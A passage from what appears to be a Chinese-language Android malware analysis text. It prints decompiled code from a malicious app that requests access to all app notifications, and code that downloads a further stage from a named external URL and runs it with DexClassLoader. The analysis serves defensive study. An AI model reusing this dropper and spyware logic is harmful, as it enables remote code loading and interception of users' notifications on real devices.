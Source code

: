 *列表 3-12：yin.Chao.yin 方法是恶意软件第二阶段的入口。*

随便看一下这些其他方法，我们可以发现最后两个方法`Chao.Nti`和`b.a`可能比较有趣。`Chao.Nti`中的代码，如列表 3-13 所示，检查用户是否已经授予应用处理所有其他应用发送的通知的权限。如果没有，应用会显示一个对话框，要求授予该权限。

```
public static void Nti(Context context, String str) {
  try {
    Class<?> cls = Class.forName(str);
    String string = Settings.Secure.getString(
      context.getContentResolver(), "enabled_notification_listeners");
    if (string == null || !string.contains(context.getPackageName())) {
      Intent intent = new Intent();
      intent.setAction(
        "android.settings.ACTION_NOTIFICATION_LISTENER_SETTINGS");
      intent.putExtra(
        "android.provider.extra.APP_PACKAGE", context.getPackageName());
      intent.addFlags(805306368);
      context.startActivity(intent);
    } else {
      c.a(context, cls);
    }
  } catch (Exception unused) {
  }
}
```

*列表 3-13：Chao.Nti 尝试获取对所有应用通知的访问权限。*

回想一下我们之前看到的一个用于处理应用通知的服务，它在清单文件中声明，但我们找不到相关的代码。这个方法似乎就是它。

`b.a`方法，其完全限定名为`com.gppp.hk.a.b.a`，更为有趣。如列表 3-14 所示，它打开了一个与*https://xn3o.oss-accelerate.aliyuncs.com/xn3o*的连接，从那里下载了另一个代码阶段，并通过`DexClassLoader` API 执行下载的代码。

```
HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(
  "https://xn3o.oss-accelerate.aliyuncs.com/xn3o").openConnection();
httpURLConnection.connect();
if (httpURLConnection.getResponseCode() == 200) {
  InputStream inputStream = httpURLConnection.getInputStream();
  FileOutputStream fileOutputStream = new FileOutputStream(file);
  byte[] bArr = new byte[1024];
  while (true) {
    int read = inputStream.read(bArr);
    if (-1 == read) {
      break;
    } 
    fileOutputStream.write(bArr, 0, read);
  }
  if (file.exists()) {
    Class loadClass2 = new DexClassLoader(
      file.getPath(), file.getAbsolutePath(), "", 
      context.getClassLoader()).loadClass("com.xn3o");
    Log.i("fb_nor", "c" + loadClass2.getName());
    Method method2 = loadClass2.getMethod("xn3o", Context.class);
    Log.i("fb_nor", "m" + method2.getName());
    method2.invoke(null, context);
  }
}
```
